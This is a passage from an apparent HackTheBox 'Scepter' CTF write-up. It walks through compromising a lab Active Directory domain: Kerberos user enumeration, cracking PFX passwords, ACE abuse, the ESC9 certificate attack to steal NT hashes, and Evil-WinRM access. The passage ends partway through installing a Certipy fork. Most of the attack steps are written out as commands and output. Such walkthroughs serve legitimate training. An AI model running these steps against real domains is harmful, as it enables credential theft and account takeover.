Now we added `d.baker` to a `usernames.txt` file and used `kerbrute` to verify if the `username` was available within the `domain`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ cat usernames.txt 
d.baker
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ ~/opt/05_password_attacks/kerbrute/kerbrute userenum --domain "scepter.htb" --dc dc01.scepter.htb usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/19/25 - Ronnie Flathers @ropnop

2025/04/19 21:14:23 >  Using KDC(s):
2025/04/19 21:14:23 >   dc01.scepter.htb:88

2025/04/19 21:14:23 >  [+] VALID USERNAME:       d.baker@scepter.htb
2025/04/19 21:14:23 >  Done! Tested 1 usernames (1 valid) in 0.182 seconds
```

## Cracking Hashes using John the Ripper

After we got our first actual `username` we used `pfx2john` to generate `hashes` for each of the `.pfx` files in order to crack them using `John the Ripper`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ pfx2john clark.pfx > clark.hash
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ pfx2john lewis.pfx > lewis.hash
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ pfx2john scott.pfx > scott.hash
```

Each of the `.pfx` files used the same `password` during the creation.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ sudo john clark.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
newpassword      (clark.pfx)     
1g 0:00:00:00 DONE (2025-04-19 21:15) 3.571g/s 18285p/s 18285c/s 18285C/s newzealand..babygrl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ sudo john lewis.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
newpassword      (lewis.pfx)     
1g 0:00:00:00 DONE (2025-04-19 21:16) 3.333g/s 17066p/s 17066c/s 17066C/s newzealand..babygrl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ sudo john scott.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
newpassword      (scott.pfx)     
1g 0:00:00:00 DONE (2025-04-19 21:17) 3.448g/s 17655p/s 17655c/s 17655C/s newzealand..babygrl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Password    |
| ----------- |
| newpassword |

## Authentication as d.baker

Assuming that the `password` was `reused` also for the the `key` of `baker` we forged our own `.pfx` file using the password `newpassword`.

NOTE: It was important to not set an `Export Password`! Otherwise the following step using `Certipy` would fail!

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ openssl pkcs12 -export -out baker.pfx -inkey baker.key -in baker.crt
Enter pass phrase for baker.key:
Enter Export Password:
Verifying - Enter Export Password:
```

| Password    |
| ----------- |
| newpassword |

### Time and Date Synchronization

In order to work with the `Domain Controller` we needed to `sync` our `date and time` with the `box`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ sudo net time set -S 10.129.248.205
```

### Grabbing NT Hash for d.baker

Now that we had the `baker.pfx` file we used `Certipy` to `authenticate` against the `domain` and receive the `NT Hash` for `d.baker`.

As previously mentioned this step only worked because we did not set the `Export Password`! It is not possible to provide `Certipy` the `Export Password` in order to use it.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ certipy-ad auth -pfx 'baker.pfx' -domain 'scepter.htb' -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'scepter.htb' at '10.0.2.1'
[*] Using principal: d.baker@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'd.baker.ccache'
[*] Trying to retrieve NT hash for 'd.baker'
[*] Got hash for 'd.baker@scepter.htb': aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce
```

| NT Hash                          |
| -------------------------------- |
| 18b5fb0d99e7a475316213c15b6f22ce |

## Active Directory

### Dumping Active Directory Configuration using Bloodhound

With the fresh `NT Hash` of `d.baker` we `dumped` the `configuration` of the `Active Directory` to plan our next step.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ netexec ldap 10.129.248.205 -u 'd.baker' -H '18b5fb0d99e7a475316213c15b6f22ce' --bloodhound --dns-tcp --dns-server 10.129.248.205 -c all
SMB         10.129.248.205  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
LDAP        10.129.248.205  389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
LDAP        10.129.248.205  389    DC01             Resolved collection methods: dcom, objectprops, acl, container, localadmin, rdp, trusts, group, psremote, session
LDAP        10.129.248.205  389    DC01             Done in 00M 28S
LDAP        10.129.248.205  389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.248.205_2025-04-20_053659_bloodhound.zip
```

Then we started `neo4j` and imported the files. Business as usual.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo neo4j start
[sudo] password for kali: 
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:199163). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

## Privilege Escalation to a.carter

### ForceChangePassword Access Control Entry (ACE) Abuse

The next step was to abuse the `ForceChangePassword` capability of `d.baker` on `a.carter`. So this was our path for our first `privilege escalation`.



We used `Impacket` and the `hash` of `d.baker` to `change` the `password` of `a.carter`.

```shell
┌──(kali㉿kali)-[~]
└─$ impacket-changepasswd 'scepter.htb'/'a.carter'@10.129.248.205 -reset -altuser 'd.baker' -althash :'18b5fb0d99e7a475316213c15b6f22ce'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

New password: 
Retype new password: 
[*] Setting the password of scepter.htb\a.carter as scepter.htb\d.baker
[*] Connecting to DCE/RPC as scepter.htb\d.baker
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.
```

| Password    |
| ----------- |
| newpassword |

After we changed the `password` of `a.carter` we verified it quickly using `NetExec`.

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.248.205 -u 'a.carter' -p 'newpassword'
SMB         10.129.248.205  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.248.205  445    DC01             [+] scepter.htb\a.carter:newpassword
```

## Lateral Movement

### GenericAll Access Control Entry (ACE) Abuse

Our new `privileges` of `a.carter` granted us access to the `IT SUPPORT` group which had `GenericAll` permissions on the `OU` of `STAFF ACCESS CERTIFICATE`. This indicate the presence of a `Certificate Authority` and looked like our next logical step.





So we used `Impacket` once again to grant us `FullControl` on the `OU` of `STAFF ACCESS CERTIFICATE`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'newpassword'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250420-055548.bak
[*] DACL modified successfully!
```

## Foothold

## Active Directory Certificate Services (AD CS) Part 1

### ESC9: No Security Extensions

- [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
- [https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension)

Now that we had this assumption of a potential `Active Directory Certificate Services (AD CS)` attack vector, we checked for it using `NetExec` and found the name of the `Certificate Authority` called `scepter-DC01-CA`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ netexec ldap 10.129.248.205 -u 'd.baker' -H '18b5fb0d99e7a475316213c15b6f22ce' -M adcs
SMB         10.129.248.205  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
LDAP        10.129.248.205  389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
ADCS        10.129.248.205  389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.248.205  389    DC01             Found PKI Enrollment Server: dc01.scepter.htb
ADCS        10.129.248.205  389    DC01             Found CN: scepter-DC01-CA

```

With this information in our pockets it was time to see what `AD CS` could do for us. Therefore we fired up `Certipy` again to search for `vulnerable templates`. After a few seconds it detected `ESC9` as potential attack vector.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ certipy-ad find -username 'd.baker' -hashes :'18b5fb0d99e7a475316213c15b6f22ce' -dc-ip '10.129.248.205' -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'scepter-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'scepter-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'scepter-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'scepter-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : scepter-DC01-CA
    DNS Name                            : dc01.scepter.htb
    Certificate Subject                 : CN=scepter-DC01-CA, DC=scepter, DC=htb
    Certificate Serial Number           : 716BFFE1BE1CD1A24010F3AD0E350340
    Certificate Validity Start          : 2024-10-31 22:24:19+00:00
    Certificate Validity End            : 2061-10-31 22:34:19+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SCEPTER.HTB\Administrators
      Access Rights
        ManageCertificates              : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        ManageCa                        : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        Enroll                          : SCEPTER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : StaffAccessCertificate
    Display Name                        : StaffAccessCertificate
    Certificate Authorities             : scepter-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireEmail
                                          SubjectRequireDnsAsCn
                                          SubjectAltRequireEmail
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 99 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SCEPTER.HTB\staff
      Object Control Permissions
        Owner                           : SCEPTER.HTB\Enterprise Admins
        Full Control Principals         : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Owner Principals          : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Dacl Principals           : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Property Principals       : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
    [!] Vulnerabilities
      ESC9                              : 'SCEPTER.HTB\\staff' can enroll and template has no security extension
```

### Privilege Escalation to h.brown

Luckily for us members of the `STAFF` group could enroll. Therefore we started looking for a target which could grant us access to the box. We found the user `h.brown` which had `CanPSRemote` permissions.



We quickly noticed that there was a `cleanup job` in place which forced us to start the `exploitation chain` for this attempt from the very beginning. Therefore we repeated the steps for `privilege escalation` and `lateral movement`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ impacket-changepasswd 'scepter.htb'/'a.carter'@10.129.248.205 -reset -altuser 'd.baker' -althash :'18b5fb0d99e7a475316213c15b6f22ce'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

New password: 
Retype new password: 
[*] Setting the password of scepter.htb\a.carter as scepter.htb\d.baker
[*] Connecting to DCE/RPC as scepter.htb\d.baker
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'newpassword' 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250421-225211.bak
[*] DACL modified successfully!
```

Now we created a `computer object` on behalf of `a.carter` in order to change the `User Principal Name (UPN)` of `d.baker` to `h.brown` since we have the `hash` of `d.baker`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ bloodyAD -d scepter.htb -u a.carter -p 'newpassword' --host dc01.scepter.htb --dc-ip 10.129.248.205 add computer a.carter newpassword
[+] a.carter created
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ certipy-ad account update -username "a.carter@scepter.htb" -p 'newpassword' -user d.baker -upn 'h.brown'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'd.baker':
    userPrincipalName                   : h.brown
[*] Successfully updated 'd.baker'
```

After we created the `computer object` we granted ourselves `GenericAll` permissions on `STAFF ACCESS CERTIFICATE`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p newpassword --dc-ip 10.129.248.205 add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" a.carter
[+] a.carter has now GenericAll on OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB
```

We needed to set the `email value` on `d.baker` to `h.brown@scepter.htb` for the `authentication` to receive the `hash` of `h.brown` when we `authenticate` using his `.pfx` file.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p newpassword set object d.baker mail -v h.brown@scepter.htb
[+] d.baker's mail has been updated
```

Now with the updated `object` of `d.baker` we requested his `.pfx` file.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ certipy-ad req -ca 'scepter-DC01-CA' -username 'd.baker@scepter.htb' -hashes 18b5fb0d99e7a475316213c15b6f22ce -template 'StaffAccessCertificate'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'
```

And when we authenticated with it as `h.brown` we received the corresponding `hash`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ certipy-ad auth -pfx d.baker.pfx -domain scepter.htb -username h.brown
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: h.brown@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c
```

#### Kerberos Configuration

From here on we had to configure the `realm` of `scepter.htb` in our `/etc/krb5.conf` in order for us to use `WinRM` to gain access as `h.brown` on the box.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ cat /etc/krb5.conf 
[libdefaults]
        default_realm = SECPTER.HTB
        dns_lookup_realm = false
        dns_lookup_kdc = true

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false


# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        SCEPTER.HTB = {
                kdc = dc01.scepter.htb
                admin_server = dc01.scepter.htb
        }
<--- CUT FOR BREVITY --->
[domain_realm]
        .scepter.htb = SCEPTER.HTB
        scepter.htb = SCEPTER.HTB
```

### WinRM Access

We `exported` the `h.brown.ccache` to our `session` and specified the `realm` in `Evil-WinRM`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ export KRB5CCNAME=h.brown.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ evil-winrm -i dc01.scepter.htb -r SCEPTER.HTB -u h.brown
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\h.brown\Documents>
```

## user.txt

With as `session` as `h.brown` we could grab the `user.txt` and move on.

```shell
*Evil-WinRM* PS C:\Users\h.brown\Desktop> type user.txt
9ded37a783af624956b53f88d59ea8e3
```

## Enumeration

A quick check on the permissions and the files on the box itself didn't showed anything useful.

```shell
*Evil-WinRM* PS C:\Users\h.brown\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== ==========================================
scepter\h.brown S-1-5-21-74879546-916818434-740295365-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                        Attributes
=========================================== ================ ========================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                    Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                               Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                               Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                               Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                               Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                   Mandatory group, Enabled by default, Enabled group
SCEPTER\CMS                                 Group            S-1-5-21-74879546-916818434-740295365-1601 Mandatory group, Enabled by default, Enabled group
SCEPTER\Protected Users                     Group            S-1-5-21-74879546-916818434-740295365-525  Mandatory group, Enabled by default, Enabled group
SCEPTER\Helpdesk Admins                     Group            S-1-5-21-74879546-916818434-740295365-1105 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Certificate  Well-known group S-1-5-65-1                                 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Since we already accessed the `HelpDesk` share at the beginning we headed back to `BloodHound` to see what our next move could be.

```shell
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/19/2025   8:00 PM                HelpDesk
d-----        4/14/2025   5:33 PM                inetpub
d-----        11/5/2022  12:03 PM                PerfLogs
d-r---       10/31/2024   3:08 PM                Program Files
d-----        9/15/2018   2:08 AM                Program Files (x86)
d-r---        11/2/2024   1:16 AM                Users
d-----        4/14/2025   5:35 PM                Windows
```

## Active Directory Certificate Services (AD CS) Part 2
### ESC14 Scenario B: Target with X509RFC822 (email)

- [https://mayfly277.github.io/posts/ADCS-part14/](https://mayfly277.github.io/posts/ADCS-part14/)
- [https://github.com/ly4k/Certipy/pull/255](https://github.com/ly4k/Certipy/pull/255)
- [https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#certificate-mapping](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#certificate-mapping)

The user `h.brown` was member of various groups and one of them was called `CMS (Certificate Management Services)`.



This was strange. We now had a new user and wanted to see if vanilla `Certipy` missed something. Therefore we cloned the `fork` from a `Pull Request (PR)` which covered `ESC14` aka `altSecurityIdentities`.

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation]
└─$ git clone https://github.com/Deloitte-OffSecResearch/Certipy.git
Cloning into 'Certipy'...
remote: Enumerating objects: 635, done.
remote: Counting objects: 100% (289/289), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 635 (delta 204), reused 161 (delta 161), pack-reused 346 (from 3)
Receiving objects: 100% (635/635), 304.28 KiB | 10.14 MiB/s, done.
Resolving deltas: 100% (424/424), done.
```

### Virtual Environment Preparation

We prepared a `virtual environment` and installed the required packages.

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/Certipy]
└─$ python3 -m virtualenv venv
created virtual environment CPython3.13.2.final.0-64 in 400ms
  creator CPython3Posix(dest=/home/kali/opt/10_post_exploitation/Certipy/venv, clear=False, no_vcs_ignore=False, global=False)
  seeder FromAppData(download=False, pip=bundle, via=copy, app_data_dir=/home/kali/.local/share/virtualenv)
    added seed packages: pip==25.0.1
  activators BashActivator,CShellActivator,FishActivator,NushellActivator,PowerShellActivator,PythonActivator
```

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/Certipy]
└─$ . venv/bin/activate
```

### Installation of the Certipy Fork

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/Certipy]
└─$ pip3 install .
Processing /home/kali/opt/10_post_exploitation/Certipy
  Installing build dependencies ... done
  Getting requirements to build wheel ... done
  Preparing metadata (pyproject.toml) ... done
Collecting asn1crypto (from certipy-ad==4.8.2)
  Using cached asn1crypto-1.5.1-py2.py3-none-any.whl.metadata (13 kB)
Collecting cryptography>=39.0 (from certipy-ad==4.8.2)
  Using cached cryptography-44.0.2-cp39-abi3-manylinux_2_34_x86_64.whl.metadata (5.7 kB)
Collecting impacket (from certipy-ad==4.8.2)
  Using cached impacket-0.12.0-py3-none-any.whl
Collecting ldap3 (from certipy-ad==4.8.2)
  Using cached ldap3-2.9.1-py2.py3-none-any.whl.metadata (5.4 kB)
Collecting pyasn1==0.4.8 (from certipy-ad==4.8.2)
  Downloading pyasn1-0.4.8-py2.py3-none-any.whl.metadata (1.5 kB)
Collecting dnspython (from certipy-ad==4.8.2)
  Using cached dnspython-2.7.0-py3-none-any.whl.metadata (5.8 kB)
Collecting dsinternals (from certipy-ad==4.8.2)
  Using cached dsinternals-1.2.4-py3-none-any.whl
Collecting pyopenssl>=23.0.0 (from certipy-ad==4.8.2)
  Using cached pyOpenSSL-25.0.0-py3-none-any.whl.metadata (16 kB)
Collecting requests (from certipy-ad==4.8.2)
  Using cached requests-2.32.3-py3-none-any.whl.metadata (4.6 kB)
Collecting requests_ntlm (from certipy-ad==4.8.2)
  Downloading requests_ntlm-1.3.0-py3-none-any.whl.metadata (2.4 kB)
Collecting pycryptodome (from certipy-ad==4.8.2)
  Downloading pycryptodome-3.22.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (3.4 kB)
Collecting unicrypto (from certipy-ad==4.8.2)
  Using cached unicrypto-0.0.10-py3-none-any.whl.metadata (386 bytes)
Collecting cffi>=1.12 (from cryptography>=39.0->certipy-ad==4.8.2)
  Using cached cffi-1.17.1-cp313-cp313-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (1.5 kB)
Collecting pyasn1_modules (from impacket->certipy-ad==4.8.2)
  Using cached pyasn1_modules-0.4.2-py3-none-any.whl.metadata (3.5 kB)
Collecting pycryptodomex (from impacket->certipy-ad==4.8.2)
  Using cached pycryptodomex-3.22.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (3.4 kB)
Collecting pyopenssl>=23.0.0 (from certipy-ad==4.8.2)
  Using cached pyOpenSSL-24.0.0-py3-none-any.whl.metadata (12 kB)
Collecting six (from impacket->certipy-ad==4.8.2)
  Using cached six-1.17.0-py2.py3-none-any.whl.metadata (1.7 kB)
Collecting ldapdomaindump>=0.9.0 (from impacket->certipy-ad==4.8.2)
  Downloading ldapdomaindump-0.10.0-py3-none-any.whl.metadata (512 bytes)
Collecting flask>=1.0 (from impacket->certipy-ad==4.8.2)
  Using cached flask-3.1.0-py3-none-any.whl.metadata (2.7 kB)
Requirement already satisfied: setuptools in ./venv/lib/python3.13/site-packages (from impacket->certipy-ad==4.8.2) (78.1.1)
Collecting charset_normalizer (from impacket->certipy-ad==4.8.2)
  Using cached charset_normalizer-3.4.1-cp313-cp313-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (35 kB)
Collecting cryptography>=39.0 (from certipy-ad==4.8.2)
  Using cached cryptography-42.0.8-cp39-abi3-manylinux_2_28_x86_64.whl.metadata (5.3 kB)
Collecting idna<4,>=2.5 (from requests->certipy-ad==4.8.2)
  Using cached idna-3.10-py3-none-any.whl.metadata (10 kB)
Collecting urllib3<3,>=1.21.1 (from requests->certipy-ad==4.8.2)
  Using cached urllib3-2.4.0-py3-none-any.whl.metadata (6.5 kB)
Collecting certifi>=2017.4.17 (from requests->certipy-ad==4.8.2)
  Using cached certifi-2025.1.31-py3-none-any.whl.metadata (2.5 kB)
Collecting pyspnego>=0.4.0 (from requests_ntlm->certipy-ad==4.8.2)
  Downloading pyspnego-0.11.2-py3-none-any.whl.metadata (5.4 kB)
Collecting pycparser (from cffi>=1.12->cryptography>=39.0->certipy-ad==4.8.2)
  Using cached pycparser-2.22-py3-none-any.whl.metadata (943 bytes)
Collecting Werkzeug>=3.1 (from flask>=1.0->impacket->certipy-ad==4.8.2)
  Using cached werkzeug-3.1.3-py3-none-any.whl.metadata (3.7 kB)
Collecting Jinja2>=3.1.2 (from flask>=1.0->impacket->certipy-ad==4.8.2)
  Using cached jinja2-3.1.6-py3-none-any.whl.metadata (2.9 kB)
Collecting itsdangerous>=2.2 (from flask>=1.0->impacket->certipy-ad==4.8.2)
  Using cached itsdangerous-2.2.0-py3-none-any.whl.metadata (1.9 kB)
Collecting click>=8.1.3 (from flask>=1.0->impacket->certipy-ad==4.8.2)
  Using cached click-8.1.8-py3-none-any.whl.metadata (2.3 kB)
